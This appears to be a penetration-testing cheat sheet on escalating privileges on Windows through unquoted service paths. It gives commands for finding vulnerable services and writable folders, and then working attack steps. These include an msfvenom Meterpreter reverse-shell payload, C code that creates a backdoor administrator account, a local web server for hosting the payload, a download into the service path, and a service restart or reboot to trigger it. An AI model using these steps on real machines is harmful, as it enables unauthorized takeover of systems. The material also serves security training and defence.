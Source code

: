 We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

Each Windows service maps to an executable file that will be run when the service is started. If the path of this file contains one or more spaces and is not enclosed within quotes, it is potentially vulnerable.
# Enumerate running services:
Powershell:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
CMD one-liner:
```batch
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
# Enumerate File Permissions
Check every path with spaces to see if it's writeable. 

i.e. The following example unqouted service path: C:\Program Files\My Program\My Service\service.exe will have the following paths checked by windows:
* C:\Program.exe
* C:\Program Files\My.exe
* C:\Program Files\My Program\My.exe
* C:\Program Files\My Program\My service\service.exe

Thus the following folders need to be checked for (W) permissions:
* C:\Program Files
* C:\Program Files\My Program
* C:\Program Files\My Program\My service
```batch
icacls "C:\Path"
```
# Craft and place malicious exe in service path
Generate payload with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f exe -o service.exe
```
Or
Example malicious service to use:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
On kali, cross-compile the service:
```batch
x86_64-w64-mingw32-gcc adduser.c -o service.exe
```
# Configure webserver to host file for transfer
```bash
python -m http.server 80
```
Remember to set up a listener (multi/handler for meterpreter) if the service payload is a revshell!

Transfer file to target machine at the vulnerable service path:
```powershell
iwr -uri http://$(IP_ADDRESS)/service.exe -Outfile "C:\Vulnerable\Service\Path.exe"
```
# Restart service
Either restart revice manually or reboot the target (assuming the service is set to automatic startup)
```batch
net stop $SERVICE
```
```batch
net start $SERVICE
```
```batch
shutdown /r /t 0
```
